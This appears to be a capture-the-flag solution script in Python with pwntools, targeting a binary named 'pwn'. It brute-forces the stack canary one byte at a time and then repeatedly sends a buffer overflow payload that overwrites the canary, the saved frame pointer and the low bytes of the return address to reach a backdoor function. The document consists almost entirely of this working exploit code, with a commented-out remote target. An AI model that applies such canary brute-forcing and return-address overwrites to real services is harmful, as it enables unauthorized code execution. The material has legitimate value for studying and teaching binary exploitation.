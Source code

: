 ### exp

```bash
#coding=utf8

import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

p.recvuntil('welcome\n')
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break

backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
```